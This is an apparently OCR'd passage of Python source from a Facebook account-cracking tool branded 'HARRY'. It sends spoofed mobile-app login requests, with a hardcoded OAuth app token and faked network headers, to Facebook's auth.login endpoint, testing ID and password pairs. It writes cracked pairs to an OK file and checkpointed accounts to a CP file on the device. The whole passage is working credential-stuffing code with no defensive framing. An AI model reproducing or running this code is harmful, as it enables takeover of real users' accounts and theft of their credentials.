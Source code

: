                                         'generate_analytics_claim':'1',

                                        'generate_machine_id':'1',

                                        "locale":"en_US","client_country_code":"US",

                                        'device':gtt,

                                        'device_id':adid,

                                        "method": "auth.login",

                                        "fb_api_req_friendly_name": "authenticate",

                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}

                                head = {

                                        'content-type':'application/x-www-form-urlencoded',

                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),

                                        'x-fb-connection-type':'unknown',

                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',

                                        'user-agent':ua_string,

                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),

                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),

                                        'x-fb-connection-quality':'EXCELLENT',

                                        'x-fb-friendly-name':'authenticate',

                                        'accept-encoding':'gzip, deflate',

                                        'x-fb-http-engine':     'Liger'}

                                url = 'https://b-api.facebook.com/method/auth.login'

                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text

                                q = json.loads(po)

                                if 'session_key' in q:

                                        print('\r\r\033[1;32m [HARRY-OK] '+ids+' | '+pas+'\033[1;97m')

                                        open('/sdcard/HARRY-OK.txt','a').write(ids+'|'+pas+'\n')

                                        oks.append(ids)

                                        break

                                elif 'www.facebook.com' in q['error_msg']:

                                        if 'y' in pcp:

                                                print('\r\r\u001b[33m [HARRY-CP] '+ids+' | '+pas+'\033[1;97m')

                                                open('/sdcard/HARRY-CP.txt', 'a').write(ids+'|'+pas+'\n')

                                                cps.append(ids)
